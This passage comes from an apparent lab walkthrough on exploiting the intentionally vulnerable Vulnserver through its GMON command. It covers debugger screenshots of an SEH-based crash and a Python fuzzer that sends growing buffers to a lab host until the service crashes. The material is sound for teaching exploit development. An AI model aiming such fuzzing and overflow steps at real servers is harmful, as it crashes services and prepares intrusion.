 While running this, check for crash in the debugger to stop this script

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-spike-dbg.png">
</div>

Here we can clearly say that our program has been crashed by ```Access Violation``` error

Checking the registers to view the payload used to crash it by fuzzing and cross verifying it with fuzzing script,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-spike-1.png">
</div>

We have passed ```10,005 bytes``` to crash our program by spiking

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-spike-2.png">
</div>

We saw that our ```EIP``` is not overflown by the junk data we passed

Here comes ```SEH``` as a defensive mechanism to stop buffer overflows

To check SEH is triggered with exception or not, view the ```SEH Chain```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-spike-seh.png">
</div>

Here we can see that SEH is filled with data from our fuzzing payload and triggered an exception

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-spike-python.png">
</div>

## Fuzzing the server

We have successfully crashed our server and the payload data begins with ```GMON /.``` which is made up of ```7 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat fuzzing.py      
import socket, sys
from time import sleep
payload=b"A"*500
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"GMON /."+payload))
        sleep(5)
        payload=payload+b"A"*500
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit() 
```
